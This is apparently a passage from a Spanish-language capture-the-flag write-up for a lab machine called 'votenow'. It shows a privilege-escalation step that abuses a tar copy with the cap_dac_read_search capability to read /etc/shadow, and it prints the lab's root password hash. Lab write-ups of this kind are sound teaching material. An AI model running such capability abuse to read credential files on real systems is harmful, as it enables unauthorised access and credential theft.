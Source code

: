 Miramos el fichero notes.txt a ver qué muestra:

```bash
[admin@votenow ~]$ cat notes.txt 
```

```bash
Reminders:
1) Utilise new commands to backup and compress sensitive files
```

-------------------------------------------------------------------------------

Viendo la nota, podemos recordar que enumerando las capabilities había un fichero llamado
tarS.

```bash
/usr/bin/tarS = cap_dac_read_search+ep
```

Si hacemos ls -la de dicho fichero vemos lo siguiente:

```bash
> [admin@votenow ~]$ ls -la /usr/bin/tarS
```

```bash
-rwx------. 1 admin admin 346136 Jun 27  2020 /usr/bin//tarS
```

Es decir, el usuario admin es el único que puede ejecutar dicho fichero.

Miramos en google de qué trata esta capability cap_dac_read_search:

https://man7.org/linux/man-pages/man7/capabilities.7.html

```
	CAP_DAC_READ_SEARCH
	       * Bypass file read permission checks and directory read
	         and execute permission checks;
	       * invoke open_by_handle_at(2);
	       * use the linkat(2) AT_EMPTY_PATH flag to create a link to
	         a file referred to by a file descriptor.
```

-------------------------------------------------------------------------------

Como podemos ver, esta capability permite saltarse los permisos de lectura de ficheros y diretorio
por ese motivo podemos probar varias cosas, como leer del directorio root, o del fichero /etc/shadow

```bash
> tarS -A /etc/shadow -f pepe.tar
```

hacemos cat pepe.tar

```bash
root:$6$BvtXLMHn$zoYCSCRbdnaUOb4u3su6of9DDUXeUEe05OOiPIQ5AWo6AB3FWRr/RC3PQ4z.ryqn6o5xS9g4JTKHYI4ek9y541:18440:0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
systemd-network:!!:18440::::::
dbus:!!:18440::::::
```